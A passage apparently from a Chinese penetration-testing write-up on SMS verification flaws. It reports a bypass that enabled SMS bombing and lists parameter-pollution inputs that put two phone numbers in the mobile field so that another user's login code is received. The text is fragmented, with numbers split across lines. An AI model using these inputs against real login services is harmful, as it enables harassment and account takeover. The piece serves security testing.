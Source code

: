 成功绕过限制实现了短信轰炸  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkaVBYM4mN033xGqiaCmFKAdUJpNBPHKOw9vkX4icOgUgg2sWTeloL4FKTpvvJO7TKC4Bd7t2ibYgwFA/640?wx_fmt=png&from=appmsg "")  
  
短信成功发送到手机：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b9ibb0kbHCIkaVBYM4mN033xGqiaCmFKAdtpNy5k4ZLasfT4fiaM38T9H5XvOGglIrblR87V5S61Rp4bwic9G5Tw7g/640?wx_fmt=jpeg&from=appmsg "")  
  
对于验证码功能大部分师傅测试到这里可能就结束了  
  
其实验证码还存在比短信轰炸更大的危害  
  
双验证码漏洞，可导致获取任意用户的验证码进行登录  
  
双验证码的测试方法有一下几种  
：  
  
mobile  
=1  
8  
888888888  
  
,  
  
mobile  
=1  
9  
999999999  
  
mobile  
=1  
8  
888888888  
  
&  
  
mobile  
=1  
9  
999999999  
  
mobile  
=1  
8  
888888888  
  
,  
  
1  
9  
999999999  
  
mobile  
=1  
8  
888888888  
  
&  
  